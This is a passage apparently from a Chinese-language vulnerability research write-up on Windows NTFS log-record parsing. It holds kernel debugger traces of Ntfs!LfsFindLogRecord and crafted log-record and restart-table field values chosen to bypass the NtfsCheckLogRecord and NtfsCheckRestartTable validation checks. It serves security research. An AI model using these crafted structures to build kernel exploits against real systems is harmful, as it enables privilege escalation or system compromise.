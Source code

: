 ```
fffff801`1e9c54a6 8bc2            mov     eax,edx ; Here you can see result of add operation in edx its equal to 2fh
1: kd> p
rax=000000000000002f rbx=0000000000183840 rcx=ffff908cfdcdc200
rdx=000000000000002f rsi=fffffa07e5d6ab70 rdi=ffffc60b7873cd60
rip=fffff8011e9c54a8 rsp=fffffa07e5d6a930 rbp=fffffa07e5d6b8e0
 r8=00000000ffffffff  r9=0000000000000000 r10=0000000000000000
r11=0000000000000002 r12=ffff8002d04d9eb8 r13=ffff8002d0fbe4f0
r14=fffffa07e5d6ab78 r15=fffffa07e5d6aba8
iopl=0         nv up ei pl nz na pe cy
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040203
Ntfs!LfsFindLogRecord+0x70:
fffff801`1e9c54a8 483b8770010000  cmp     rax,qword ptr [rdi+170h] ds:002b:ffffc60b`7873ced0=00000000001f4100 ; Here NTFS.sys compares TotalAvailable and eax
1: kd> p
rax=000000000000002f rbx=0000000000183840 rcx=ffff908cfdcdc200
rdx=000000000000002f rsi=fffffa07e5d6ab70 rdi=ffffc60b7873cd60
rip=fffff8011e9c54af rsp=fffffa07e5d6a930 rbp=fffffa07e5d6b8e0
 r8=00000000ffffffff  r9=0000000000000000 r10=0000000000000000
r11=0000000000000002 r12=ffff8002d04d9eb8 r13=ffff8002d0fbe4f0
r14=fffffa07e5d6ab78 r15=fffffa07e5d6aba8
iopl=0         nv up ei ng nz na pe cy
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040283
Ntfs!LfsFindLogRecord+0x77:
fffff801`1e9c54af 7d47            jge     Ntfs!LfsFindLogRecord+0xc0 (fffff801`1e9c54f8) [br=0] ; Comparasion is sucessfully satisfied. Branch is not taken.
```

  
最后一步是绕过 
```
ntfs!NtfsCheckLogRecord
```

  
和 
```
ntfs!NtfsCheckRestartTable
```

  
函数的检查。由于这主要涉及构造满足这两个函数检查的结构，我不会详细描述每个细节。以下是我填充的字段内容。  

```
  ...
  lpNtfsLogRecordHeader->RedoOperation = 0x06;
  lpNtfsLogRecordHeader->UndoOperation = 0x02;
  lpNtfsLogRecordHeader->RedoOffset = 0x100;
  lpNtfsLogRecordHeader->RedoLength = 0x100;
  lpNtfsLogRecordHeader->UndoOffset = 0x200;
  lpNtfsLogRecordHeader->UndoLength = 0x100;
  lpNtfsLogRecordHeader->TargetAttribute = 0xb8;
  lpNtfsLogRecordHeader->LcnsToFollow = 0x4242;
  lpNtfsLogRecordHeader->RecordOffset = 0x50;
  lpNtfsLogRecordHeader->AttributeOffset = 0x0;
  lpNtfsLogRecordHeader->ClusterBlockOffset = 0x0;
  lpNtfsLogRecordHeader->Reserved = 0;
  lpNtfsLogRecordHeader->TargetVcn = 0;
  lpNtfsLogRecordHeader->LcnsForPage[0] = 0;
  ...
  lpRestartTable->EntrySize = 0x4343;
  lpRestartTable->NumberEntries = 0x01;
  lpRestartTable->NumberAllocated = 0x01;
  lpRestartTable->Flags = 0x00;
  lpRestartTable->Reserved = 0x42424242;
  lpRestartTable->FreeGoal = 0x42424242;
  lpRestartTable->FirstFree = 0x0;
```